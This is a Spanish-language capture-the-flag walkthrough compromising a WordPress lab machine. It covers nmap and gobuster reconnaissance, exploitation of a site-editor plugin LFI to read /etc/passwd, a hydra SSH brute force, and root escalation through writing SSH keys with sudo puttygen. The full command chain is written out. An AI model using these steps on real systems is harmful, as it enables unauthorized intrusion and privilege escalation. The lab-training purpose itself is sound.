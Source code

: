 - Tags: #wordpress #PluguinWordPress #puttygen 
_____
Se comienza la máquina aplicando el escaneo básico de reconocimiento con nmap.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPort
```

PORT STATE SERVICE

> 22/tcp open ssh

> 80/tcp open http

_____________________________________________________________________

Para posteriormente realizar otro escaneo con nmap y aplicar los scripts básicos de reconocimiento donde conoceremos las versiones y servicios que están corriendo en cada puerto

```shell
nmap -p 22,80 172.17.0.22 -sCV -oN target
```

> 22/tcp open ssh OpenSSH 9.2p1 Debian

> 80/tcp open http Apache httpd 2.4.59 ((Debian)

Vemos que tenemos dos puertos abiertos, además tenemos versiones y sabemos que corre por cada puerto, es hora de investigar a que nos enfrentamos visitando la página web.
_____
![](attachment/aa22b4c7260b6896250cedb55c368a41.png)
____
Podemos utilizar el Wappalyzer que es una extensión de Firefox para ver qué gestores de contenido están alojados en la web, en este caso tenemos a WordPress en una versión un tanto desactualizada, por lo que seguramente es vulnerable.

Antes de pasar a la fase de reconocimiento del WordPress podemos realizar fuzzing para encontrar subdirectorios y basándonos en lo que encontremos podremos ver si nos es útil o no.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
```

Con este comando podremos enumerar múltiples subdirectorios, además de extensiones de archivos como php, txt y html, así como un nuevo dominio para el cual debemos aplicar virtual hosting para que nos resuelva el dominio con la IP.
____
![](attachment/b1f85fe8895140125fd61ae0e08c4855.png)
____
El nuevo dominio que encontramos es http://asucar.dl

La información que obtuvimos del escaneo con gobuster también la podemos conseguir si revisamos minuciosamente el código fuente de la página principal, y es lo que haremos, ya que en el código fuente podremos encontrar una dirección URL que nos puede ayudar a enumerar usuarios.
____
![](attachment/fb278575837798069634acaede3b128d.png)
______
En este caso encontramos un usuario que está registrado en el WordPress, pero no tenemos su contraseña para acceder por la página de login.

Por lo que haremos ahora es enumerar el gestor de contenido (WordPress) y ver que encontramos en cuanto a Themes, Plugins u otros usuarios.

Lo podemos hacer de dos formas.

1) MANUALMENTE

Es la que recomiendo hacer porque se aprende mucho de las rutas y/o directorios donde se aloja información sensible, además de tener una noción más amplia de que es lo que hace y como funciona una herramienta automatizada como Wpscan.

2) AUTOMATIZADA

Tenemos herramientas como Wpscan que nos automatiza el reconocimiento del CMS además de indicarnos si existen vulnerabilidades de lo que enumere por ejemplo un plugin.

Yo elijo la opción número 1.

Apliquemos reconocimiento manualmente, empezamos enumerando plugins y lo haremos con el comando Curl aplicando un filtrado con el comando grep para que nos muestre solo los plugins existentes.

```shell
curl -s -X GET http://asucar.dl | grep "plugins"
```

Enumeramos un plugin site-editor por lo que buscaremos con searchsploit y veamos que encontramos.
____
![](attachment/b98843ce37e5d083545c891bb28c5660.png)
___
Tenemos una vulnerabilidad LFI (Local File Inclusion) que nos sirve para la versión del plugin que encontramos, vemos el contenido para saber como se acontece esta vulnerabilidad por medio del plugin especifico.
_____
![](attachment/699fd0b43105b858b0e03ce4d10316c0.png)
___
Seguimos la ruta especificada en él .txt lo cual nos llevara a poder ver el archivo /etc/passwd de la máquina víctima y así poder enumerar usuarios existentes en la misma.

He de recalcar que intente explotar un log poisoning, pero no encontré un vector de entrada para esta vulnerabilidad, por lo que solo se enumeró un usuario: curiosito.

El siguiente paso será aplicar fuerza bruta con hydra para ver si obtenemos alguna contraseña para el usuario curiosito y así poder conectarnos por ssh.

```shell
hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16
```

Tenemos éxito con hydra y nos reporta una contraseña para el usuario curiosito. Por lo que nos conectamos con ssh.
____
![](attachment/1874b59315b555b0b7aac4100249d02e.png)
____
Aplicamos el comando `sudo -l` y vemos que podemos ejecutar puttygen como root y sin proporcionar contraseña.

## ESCALADA DE PRIVILEGIOS.

Podemos realizar la escalada de privilegios con:

```shell
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id

puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys

sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id

sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
```

Explicación de como funciona

- 1.
    **Generar una clave RSA de 2048 bits y guardarla como clave privada en formato OpenSSH:**
    `puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`
- 2.
    **Agregar la clave pública generada al archivo** `authorized_keys`**:**
    
    `puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`
- 3.
    **Convertir y copiar la clave privada al directorio** `root`**:**
    
    `sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/id`
- 4.
    
    **Convertir la clave privada a una clave pública y guardarla en** `authorized_keys` **del directorio** `root`**:**
    
    `sudo puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`

Estos comandos generan una clave SSH, añaden la clave pública a `authorized_keys` para permitir el acceso SSH, y copian las claves al directorio `root` para habilitar acceso SSH sin contraseña para el usuario `root`.

Ahora debemos descargar el archivo ==id== en nuestra máquina.

```shell
scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .
```

```shell
ssh -i id root@172.17.0.2
```

Y de esta forma nos conectamos como el usuario root.